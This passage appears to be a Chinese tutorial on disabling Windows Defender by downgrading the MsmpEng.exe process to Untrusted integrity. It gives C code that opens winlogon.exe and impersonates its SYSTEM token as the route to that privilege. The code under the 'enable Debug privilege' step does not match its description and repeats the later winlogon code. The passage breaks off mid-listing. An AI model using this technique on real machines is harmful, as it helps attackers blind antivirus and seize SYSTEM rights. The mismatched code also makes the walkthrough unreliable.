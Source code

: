 如果我们将`MsmpEng.exe`的完整级别降为Untrusted,
那么该进程对计算机资源的访问将十分有限，由于WindowsDefender的核心服务需要某些令牌，降为Untursted级别后这些令牌都会被摘除掉。如下图所示，我将`msedge.exe`的integrity降为Untrusted后，edge浏览器就无法打开了

![]()

### 实现思路

#### 1.开启Debug权限

通过`EnableDebugPrivilege`函数开启当前进程的Debug权限，Debug权限允许进程附加到其他进程上以进行调试，以下是`EnableDebugPrivilege`函数的定义：

  * 调用`OpenProcessToken`获取传入进程的访问令牌

  * 获取到令牌后，函数调用`LookupPrivilegeValue`函数以获取`SE_DEBUG_NAME`特权的本地唯一标识符（LUID）

  * 获取`SE_DEBUG_NAME`特权的LUID后，函数创建一个`TOKEN_PRIVILEGES`结构来表示要启用的特权，然后将SE_DEBUG_NAME特权的LUID和启用状态填入到此结构中

  * 调用`AdjustTokenPrivileges`来调整之前打开的令牌，使其获得`SE_DEBUG_NAME`特权

    
    
    wchar_t procname[80] = L"winlogon.exe"; // 目标进程名称  
    int pid = getpid(procname); // 获取目标进程ID  
    HANDLE phandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid); // 打开目标进程  
      
    HANDLE ptoken;  
    OpenProcessToken(phandle, TOKEN_READ | TOKEN_IMPERSONATE | TOKEN_DUPLICATE, &ptoken); // 获取目标进程的访问令牌  
      
    // 尝试以目标用户身份运行  
    if (ImpersonateLoggedOnUser(ptoken)) {  
        printf("[*] Impersonated System!\n");  
    }  
    else {  
        printf("[-] Failed to impersonate System...\n");  
    }  
    // 关闭句柄  
    CloseHandle(phandle);  
    CloseHandle(ptoken);

#### 2.获取system权限的令牌

通过获取winlogon.exe进程（该进程以SYSTEM账户运行）的令牌并模拟该用户，这是为了获取到比当前用户更高的权限。

调用OpenProcessToken()函数获取winlogon.exe进程的令牌,
再调用ImpersonateLoggedOnUser函数将使用获取到的令牌模拟用户登录，如果成功，那么在此后的代码执行过程中，将使用该令牌所代表的用户权限。这里因为`winlogon.exe`通常是以SYSTEM用户身份运行的，所以相当于得到了SYSTEM的权限

    
    
    wchar_t procname[80] = L"winlogon.exe"; // 目标进程名称  
    int pid = getpid(procname); // 获取目标进程ID  
    HANDLE phandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid); // 打开目标进程  
      
    HANDLE ptoken;  
    OpenProcessToken(phandle, TOKEN_READ | TOKEN_IMPERSONATE | TOKEN_DUPLICATE, &ptoken); // 获取目标进程的访问令牌  
      